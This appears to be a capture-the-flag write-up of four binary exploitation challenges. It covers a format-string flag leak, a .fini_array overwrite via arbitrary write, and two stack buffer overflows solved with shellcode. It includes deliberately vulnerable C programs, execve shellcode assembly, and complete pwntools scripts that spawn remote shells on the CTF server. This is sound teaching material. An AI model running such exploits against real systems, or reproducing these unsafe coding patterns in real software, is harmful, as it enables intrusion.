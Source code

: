 ## Small spaces

```c
#include<stdio.h>

int main(){
    setvbuf(stdout, NULL, _IONBF, 0);

    char name[9];
    char flag[100];
    FILE* stream;
    stream = fopen("flag.txt","r");
    fread(&flag,sizeof(char), 100, stream);
    fclose(stream);
    puts("What's your name? (less than 9 characters please!)");
    fgets(name,8,stdin);
    printf("Welcome, ");
    printf(name);
    return 0;
}
```

In this challenge, the flag is read onto the stack in the flag variable. We also have a format string vulnerability on line 15 that we can use to leak stack values. However, our payload can only be 8 bytes long. If we just used `%x` we wouldn't have enough space (we need `%x` * 7 to read the first stack value. The first 6 read from the [6 registers used to store the first 6 'arguments'](https://ctf101.org/binary-exploitation/what-are-calling-conventions/).) However, on UNIX, we can use [`$` to specify the argument index](https://stackoverflow.com/questions/19327441/gcc-dollar-sign-in-printf-format-string) to print. Thus, we can read the flag by trying a few different memory offsets.



## Unsafe exit

```c
#include<stdio.h>
void win(){
    system("/bin/sh");
}
int main(){
    setvbuf(stdout, NULL, _IONBF, 0);

    long where;
    long what;
    printf("Please enter where you went and what you did there: ");
    scanf("%ld %ld",&where,&what);
    printf("Saving data to database...\n");
    *(long*)where = what;
    printf("Thanks for using UnsafeExit. You can now exit unsafely!\n");
    return 0;
}
```

This program allows us to write to arbitrary memory locations. Using `checksec`, we find that the binary is compiled with RELRO off. 

```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

This means that there is no write protection for many areas of the binary. From here, there are several locations that we can write to to control the flow of the program. The easiest location is the `.fini_array` section of the binary. Running `objdump -x chal`, we find under `Sections`:

```
18 .fini_array   00000008  0000000000403210  0000000000403210  00002210  2**3
                  CONTENTS, ALLOC, LOAD, DATA

```

After running the main function, any functions whose address is in `.fini_array` will be run. This makes `.fini_array` a good target for exploitation because its address is always constant and easily determined. 

You can use the following script to obtain the address of any section in an ELF:

```python
def get_section_address(elf, section_name):
    possible = [x for x in elf.sections if x.name == section_name]
    if not possible:
        raise Exception(f"{section_name} not found")
    addresses = [x for x in elf.search(possible[0].data())]
    if len(addresses) > 1:
        print("Warning: Multiple sections contain same data found")
    return addresses[0]
```

Once the address of `.fini_array` is obtained, write the address of `win` to it and you'll get a shell.



## Halfscotch

Comments: Shellcode challenges are actually very very common. You'll probably see one at every beginner CTF.

```c
#include<stdio.h>

int main(){
    setvbuf(stdout, NULL, _IONBF, 0);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);

    char name[112];
    name[111]=69;
    printf("Let's start at %p\n",&name); 
    fgets(name, 130, stdin);
    printf("Hello, %s", name);
    puts("Let's play hopscotch");
    if(name[111] != 69){
      printf("Outstanding move, but that's illegal.");
      exit(0);
    }
    printf("I guess you lost lmao");
    return 0;
}
```

We observe that there is a buffer overflow vulnerability because we are writing up to 130 bytes into a 112 byte buffer. However, byte 111 needs to be 69, otherwise the program exits before it can jump to the overwritten rip. Running `checksec`, we find that the program has RWX segments.

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

This means that the stack (a region we have some control over) is executable. If you see this in a CTF it's probably almost always shellcode. Shellcode is assembly that, when executed, gives us a shell. If we are able to get our shellcode into our stack, and trick the program into jumping to our shellcode, we can get a shell. Fortunately, the address of our input has been given to us, so we know exactly where to jump to. You can get shellcode from various websites, like exploitdb.com, but I find that the pwntools shellcraft module can generate shellcode that conveniently works. Since the length of our shellcode is much less than 111 characters, we can bypass the canary very easily.

```python
from pwn import *
from binascii import *

p = remote("ctf.nush.app",1339)
e = ELF("./chal")
context.binary = e

l = p.recvline()
start = int(l[len("Let's start at 0x"):-1],16)
print(hex(start))
shellcode = asm(shellcraft.sh())
p.sendline(shellcode + b"\xcc"*(111-len(shellcode))+b"E"+b"a"*8+p64(start))
p.interactive()
```

## Hopscotch

```c
#include<stdio.h>

int main(){
    setvbuf(stdout, NULL, _IONBF, 0);
    
    char name[16];
    name[16-1]=69;
    puts("Can you JMP to the destination?");
    printf("Let's start at %p\n",&name); 
    fgets(name, 48, stdin);
    printf("Hello, %s", name);
    puts("Let's play hopscotch");
    if(name[16-1] != 69){
      printf("Outstanding move, but that's illegal.");
      exit(0);
    }
    printf("I guess you lost lmao");
    return 0;
}
```

With a few tweaks, this challenge is much much harder than halfscotch. Our total payload size can only be 48 characters, and we're interrupted in the middle by the canary. This is a very big problem because the length of our shellcode (around 25 characters) is greater than 16. For this challenge, we will have to delve into the assembly that constitutes our shellcode.

```assembly
xor rdx, rdx
movabs rbx, 0x68732f2f6e69622f # moves /bin/sh into rbx
xor rsi, rsi
push rax
push rbx
push rsp
pop rdi
mov al, 0x3b # syscall code for execve
syscall 
```

Due to the canary at byte 15, we are forced to split our shellcode into 2 parts. We can use a jump instruction to jump over the canary into the other part. Here's a visual representation of the stack.

```
|       buffer (16 bytes)         |
|part 1 (15 bytes)|canary (1 byte)|rbp (8 bytes)|rip (8 bytes)| remaining writable stack (16 bytes) |
```

The first 2 instructions of the shellcode already take up 13 bytes. We only have 2 bytes to jump to the next part. Thus, there's not enough space to jump to a specific memory address. Fortunately, when the `ret` instruction is called, `rsp` is set to the end of `rip` (because the stack frame is discarded). This happens to be where the second part of our shellcode is. Thus, we can just `jmp rsp` which nicely fits in 2 bytes.

```
|       buffer (16 bytes)         |
|part 1 (15 bytes)|canary (1 byte)|rbp (8 bytes)|rip (8 bytes)| remaining writable stack (16 bytes) |
															  ^ rsp is here :)
```

```python
from pwn import *
from binascii import *

p = remote("ctf.nush.app",1340)
e = ELF("./chal")
context.binary = e


p.recvline()
l = p.recvline()
start = int(l[len("Let's start at 0x"):-1],16)
s = asm(f"""
xor rdx, rdx
movabs rbx, 0x68732f2f6e69622f
jmp rsp
""")
s2 = asm("""
xor rsi, rsi
push rax
push rbx
push rsp
pop rdi
mov al, 0x3b
syscall
""")
print(len(s),s)
assert len(s)<16
pl = s + b"\xcc"*(15-len(s))+b"E"+b"a"*8+p64(start)+s2
assert len(pl) < 48
p.sendline(pl)
p.interactive()
```

